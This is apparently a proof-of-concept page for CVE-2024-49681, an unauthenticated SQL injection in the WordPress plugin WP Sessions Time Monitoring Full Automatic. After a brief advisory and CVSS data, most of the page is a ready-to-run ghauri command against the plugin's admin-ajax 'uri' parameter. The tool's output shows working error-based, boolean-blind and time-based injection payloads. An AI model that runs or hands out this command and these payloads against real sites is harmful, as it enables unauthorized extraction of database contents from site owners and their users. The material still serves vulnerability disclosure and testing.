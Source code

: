 # CVE-2024-49681
WP Sessions Time Monitoring Full Automatic &lt;= 1.0.9 - Unauthenticated SQL Injection

# Description:
The WP Sessions Time Monitoring Full Automatic plugin for WordPress is vulnerable to SQL Injection in versions up to, and including, 1.0.9 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

```
Published: 2024-10-21 00:00:00
CVE: CVE-2024-49681
CVSS: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
CVSS Score: 7.5
Slugs: activitytime
```

POC
---

```
ghauri -u http://kubernetes.docker.internal/wp-admin/admin-ajax.php --data="action=activitytime_action&uri=test" -p uri --dbms mysql --dbs


  ________.__                        .__  {1.3.8}
 /  _____/|  |__ _____   __ _________|__|
/   \  ___|  |  \\__  \ |  |  \_  __ \  |
\    \_\  \   Y  \/ __ \|  |  /|  | \/  |
 \______  /___|  (____  /____/ |__|  |__|
        \/     \/     \/         https://github.com/r0oth3x49
                                 An advanced SQL injection detection & exploitation tool.
  


[*] starting @ 15:23:38 /2024-11-09/

[15:23:38] [INFO] testing connection to the target URL
Ghauri resumed the following injection point(s) from stored session:
---
Parameter: dbid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind (query SLEEP)
    Payload: action=activitytime_action&uri=test

Parameter: uri (POST)
    Type: error-based
    Title: MySQL >= 5.1 AND string error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)
    Payload: action=activitytime_action&uri=test' AND UPDATEXML(0,CONCAT_WS('(', '~','r0oth3x49','~'),0)-- wXyW

    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=activitytime_action&uri=test' AND 08875=8875-- wXyW
---
there were multiple injection points, please select the one to use for following injections:
[0] place: POST, parameter: dbid  (default)
[1] place: POST, parameter: uri
```

